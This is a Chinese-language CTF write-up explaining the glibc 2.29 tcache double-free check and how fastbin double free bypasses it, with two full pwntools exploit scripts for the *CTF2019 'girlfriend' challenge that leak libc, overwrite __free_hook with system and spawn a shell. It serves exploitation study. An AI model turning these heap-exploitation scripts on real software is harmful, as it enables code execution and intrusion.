 ```yaml
---
clayout: post
title:  "glibc2.29-double free"
date:   2020-2-18
desc: ""
keywords: ""
categories: [Binary]
tags: [pwn]
icon: icon-html
---
```


# glibc2.29-double free

> fastbin double free，👴的青春回来🌶

## glibc2.29-tcache

```c
#if USE_TCACHE
  {
    size_t tc_idx = csize2tidx (size);
    if (tcache != NULL && tc_idx < mp_.tcache_bins)
      {
	/* Check to see if it's already in the tcache.  */
	tcache_entry *e = (tcache_entry *) chunk2mem (p);

	/* This test succeeds on double free.  However, we don't 100%
	   trust it (it also matches random payload data at a 1 in
	   2^<size_t> chance), so verify it's not an unlikely
	   coincidence before aborting.  */
	if (__glibc_unlikely (e->key == tcache))
	  {
	    tcache_entry *tmp;
	    LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
	    for (tmp = tcache->entries[tc_idx];
		 tmp;
		 tmp = tmp->next)
	      if (tmp == e)
		malloc_printerr ("free(): double free detected in tcache 2");
	    /* If we get here, it was a coincidence.  We've wasted a
	       few cycles, but don't abort.  */
	  }

	if (tcache->counts[tc_idx] < mp_.tcache_count)
	  {
	    tcache_put (p, tc_idx);
	    return;
	  }
      }
  }
#endif
```

glibc2.29在tcache_entry结构体中加上一个8字节指针key，位置就是bk的位置，chunk进入tcache后，将chunk->key设置为tcachestruct(heap开头+0x10)

free时，进tcache前会检查chunk->key是否为tcache，如果是tcache就会检查tcache链中是否有相同的chunk

把chunk->key改了就可以绕过检查，但是👴寻思👴都能摸到bk了应该也能摸到fd，那👴应该也⑧需要double free了

👴搞出来fastbin，然后fastbin double free，梦回2.23



## *CTF2019-girlfriend

double free

libc白给，free一个大于等于0x420然后show就完事了

add一堆，先free7个，后面的准备进fastbin，然后fastbin double free基本操作

```python
from pwn import *

#r = process(['./lib/ld-2.29.so','--library-path','./lib/','./babyheap'])
r = remote('node3.buuoj.cn',25085)
elf=ELF('./babyheap')
libc = ELF('./lib/libc.so.6')

def add(size,name):
    r.sendlineafter('choice:','1')
    r.sendlineafter('name',str(size))
    r.sendlineafter('name:',name)
    r.sendlineafter('call:','1')

def show(index):
    r.sendlineafter('choice:','2')
    r.sendlineafter('index:',str(index))
    r.recvuntil('name:')

def free(index):
    r.sendlineafter('choice:','4')
    r.sendlineafter('index:',str(index))

add(0x500,'fuck')
add(0x40,'/bin/sh\x00')
free(0)
show(0)
r.recvuntil('\n')
leak = u64(r.recvuntil('\x7f').ljust(8,'\x00'))
libc_base = leak-0x3b1ca0
log.success(hex(libc_base))

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']
log.success(hex(free_hook))
add(0x500,'fuck')

for i in range(9):
	add(0x60,'fuck')
for i in range(8):
	free(i+2)
free(10)
free(11)
free(10)

for i in range(7):
	add(0x60,'fuck')

add(0x60,p64(free_hook-0x13))
add(0x60,'fuck')
add(0x60,'fuck')
add(0x60,'a'*0x13+p64(system))
free(1)
r.interactive()
```



glibc-2.27

```python
from pwn import *

r = remote('node3.buuoj.cn',29019)
elf=ELF('./babyheap')
libc = ELF('/libc-2.27.so')

def add(size,name):
    r.sendlineafter('choice:','1')
    r.sendlineafter('name',str(size))
    r.sendlineafter('name:',name)
    r.sendlineafter('call:','1')

def show(index):
    r.sendlineafter('choice:','2')
    r.sendlineafter('index:',str(index))
    r.recvuntil('name:')

def free(index):
    r.sendlineafter('choice:','4')
    r.sendlineafter('index:',str(index))

add(0x500,'fuck')
add(0x40,'/bin/sh\x00')
free(0)
show(0)
r.recvuntil('\n')
leak = u64(r.recvuntil('\x7f').ljust(8,'\x00'))
libc_base = leak-96-0x10-libc.sym['__malloc_hook']
log.success(hex(libc_base))

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']
log.success(hex(free_hook))

add(0x60,'fuck')
add(0x60,'fuck')
free(2)
free(2)
add(0x60,p64(free_hook-0x13))
add(0x60,'fuck')
add(0x60,'a'*0x13+p64(system))
free(1)
r.interactive()

```

